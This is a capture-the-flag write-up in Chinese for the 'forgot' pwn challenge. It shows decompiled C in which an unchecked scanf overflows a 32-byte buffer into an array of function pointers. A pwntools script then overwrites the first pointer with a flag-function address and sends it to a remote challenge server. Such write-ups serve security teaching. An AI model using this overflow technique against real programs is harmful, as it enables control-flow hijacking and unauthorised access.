

# forgot+栈溢出

这里我们查看这个ida的逻辑



```c
int main()
{
  size_t v0; // ebx
  char v2[32]; // [esp+10h] [ebp-74h] BYREF
  _DWORD v3[10]; // [esp+30h] [ebp-54h]
  char s[32]; // [esp+58h] [ebp-2Ch] BYREF
  int v5; // [esp+78h] [ebp-Ch]
  size_t i; // [esp+7Ch] [ebp-8h]

  v5 = 1;
  v3[0] = sub_8048604;
  v3[1] = sub_8048618;
  v3[2] = sub_804862C;
  v3[3] = sub_8048640;
  v3[4] = sub_8048654;
  v3[5] = sub_8048668;
  v3[6] = sub_804867C;
  v3[7] = sub_8048690;
  v3[8] = sub_80486A4;
  v3[9] = sub_80486B8;
  puts("What is your name?");
  printf("> ");
  fflush(stdout);
  fgets(s, 32, stdin);
  sub_80485DD(s);
  fflush(stdout);
  printf("I should give you a pointer perhaps. Here: %x\n\n", sub_8048654);
  fflush(stdout);
  puts("Enter the string to be validate");
  printf("> ");
  fflush(stdout);
  __isoc99_scanf("%s", v2);
  for ( i = 0; ; ++i )
  {
    v0 = i;
    if ( v0 >= strlen(v2) )
      break;
    switch ( v5 )
    {
      case 1:
        if ( sub_8048702(v2[i]) )
          v5 = 2;
        break;
      case 2:
        if ( v2[i] == 64 )
          v5 = 3;
        break;
      case 3:
        if ( sub_804874C(v2[i]) )
          v5 = 4;
        break;
      case 4:
        if ( v2[i] == 46 )
          v5 = 5;
        break;
      case 5:
        if ( sub_8048784(v2[i]) )
          v5 = 6;
        break;
      case 6:
        if ( sub_8048784(v2[i]) )
          v5 = 7;
        break;
      case 7:
        if ( sub_8048784(v2[i]) )
          v5 = 8;
        break;
      case 8:
        if ( sub_8048784(v2[i]) )
          v5 = 9;
        break;
      case 9:
        v5 = 10;
        break;
      default:
        continue;
    }
  }
  (v3[--v5])();
  return fflush(stdout);
}
```

从程序的逻辑上和栈空间我们可以知道可以溢出v2来控制v3的数据并且我们输入的数据会在v2并且v5的初始值为1因此我们可以把第一个if语句改为flast使得v5=1直接退出，这样v3[--v5]\(\)正好为v3[0]\(\)使得这个漏洞可以触发因此我们得到flag

```python
from pwn import *

# io = process("/home/fofa/pwn")
io = remote("61.147.171.105",60562)
payload = b'B'*0x20 + p32(0x080486CC)

io.sendlineafter(">",'hhh')
io.sendlineafter(">",payload)
io.interactive()
```

